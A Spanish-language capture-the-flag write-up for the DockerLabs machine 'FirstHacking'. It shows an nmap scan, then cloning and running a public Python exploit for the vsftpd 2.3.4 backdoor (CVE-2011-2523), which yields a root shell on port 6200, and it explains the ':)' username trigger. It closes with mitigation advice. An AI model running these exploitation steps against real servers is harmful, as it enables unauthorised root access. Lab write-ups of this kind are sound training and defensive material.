








# FirstHacking - DockerLabs

| Campo      | Detalle                   |
| ---------- | ------------------------- |
| Plataforma | DockerLabs                |
| Dificultad | Muy fácil                 |
| Sistema    | Linux (contenedor Docker) |
| IP         | 172.17.0.2                |
| Fecha      | 22/10/2026                |

## Resumen

El acceso inicial se obtiene explotando el backdoor de **vsftpd 2.3.4** (CVE-2011-2523) mediante un exploit en Python que abre una shell en el puerto 6200. El propio exploit entrega directamente una shell como usuario `root`, por lo que no es necesaria una fase adicional de escalada de privilegios.

## Despliegue del laboratorio

Se despliega la máquina vulnerable con el script proporcionado por DockerLabs:

```bash
sudo bash auto_deploy.sh firsthacking.tar
```

El script indica que la máquina ha quedado desplegada y asigna la siguiente IP:

```
Máquina desplegada, su dirección IP es —> 172.17.0.2
```



## Reconocimiento

Se lanza un escaneo de puertos completo con Nmap:

```bash
sudo nmap -p- -sS -sC -sV -T5 -n -Pn -vvv 172.17.0.2
```

Parámetros empleados:

- `-p-`: escanea los 65535 puertos TCP, no solo los más comunes.
- `-sS`: escaneo SYN (half-open), rápido y discreto.
- `-sC`: ejecuta los scripts NSE por defecto para obtener más información de cada servicio.
- `-sV`: detección de versión de los servicios.
- `-T5`: plantilla de temporización más agresiva, para acelerar el escaneo.
- `-n`: no resuelve DNS inverso.
- `-Pn`: omite el descubrimiento de host (asume que está activo), necesario porque muchos entornos Docker/CTF no responden a ping.
- `-vvv`: salida muy detallada, útil para ver los puertos según se van descubriendo.



El escaneo revela el puerto 21 abierto con una versión de FTP muy antigua:

```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.3.4
MAC Address: B6:29:5D:5F:F2:91 (Unknown)
Service Info: OS: Unix
```



## Enumeración

La versión **vsftpd 2.3.4** es conocida por ser vulnerable a un backdoor introducido de forma maliciosa en el código fuente oficial. Puesto que se busca explotarlo de forma manual (sin Metasploit), se busca en Google si existe algún exploit disponible:



Entre los resultados se localiza el repositorio [Maalfer/CVE-2011-2523-vsftpd-2.3.4-exploit](https://github.com/Maalfer/CVE-2011-2523-vsftpd-2.3.4-exploit), que implementa en Python la explotación del **CVE-2011-2523**:



## Explotación / acceso inicial

Se clona el repositorio del exploit:

```bash
git clone https://github.com/Maalfer/CVE-2011-2523-vsftpd-2.3.4-exploit.git
```



Se accede al directorio del repositorio y se prepara un entorno virtual de Python para instalar la dependencia necesaria (`nclib`):

```bash
cd CVE-2011-2523-vsftpd-2.3.4-exploit
python3 -m venv venv
source venv/bin/activate
pip install nclib
```



Se ejecuta el exploit indicando la IP de la máquina víctima:

```bash
python3 exploit.py 172.17.0.2
```

El script se conecta al servicio FTP, detecta el servidor vsftpd, dispara el backdoor y se conecta a la shell que queda escuchando en el puerto 6200:

```
[*] Conectando a 172.17.0.2:21
[*] Servidor vsftpd detectado
[*] Backdoor disparada, esperando 2s...
[*] Conectando al backdoor en 172.17.0.2:6200
[+] ¡Shell obtenida!
uid=0(root) gid=0(root) groups=0(root)
[*] Shell interactiva (Ctrl+C para salir)
```

Se comprueba el usuario obtenido:

```bash
whoami
root
```

La shell se obtiene directamente como **root**, sin pasos intermedios de escalada.



## Escalada de privilegios

No es necesaria: el backdoor de vsftpd 2.3.4 entrega directamente una shell con privilegios de `root`.

## Conclusiones y mitigaciones

- **Vulnerabilidad principal**: la versión 2.3.4 de vsftpd distribuida entre junio y julio de 2011 contenía una puerta trasera (backdoor) insertada de forma maliciosa en el código fuente oficial. Al enviar como usuario FTP una cadena que contiene `:)`, el servicio abre una shell de root en el puerto 6200.
- **Mitigación**: actualizar vsftpd a una versión oficial no comprometida, verificar la integridad de los binarios y fuentes descargados (hashes/firmas) y evitar ejecutar servicios FTP con privilegios de root.
- **Buenas prácticas generales**: no exponer servicios FTP a redes no confiables sin necesidad, mantener un inventario de versiones de software expuesto y aplicar gestión de parches para detectar versiones obsoletas o comprometidas.

## Herramientas utilizadas

- `nmap` — escaneo y enumeración de puertos y servicios.
- Navegador web / Google — búsqueda de exploits públicos para la versión detectada.
- `git` — clonado del repositorio con el exploit.
- `python3` / `venv` / `pip` — preparación del entorno y ejecución del exploit (`nclib`).
- Exploit en Python para CVE-2011-2523 (backdoor de vsftpd 2.3.4).
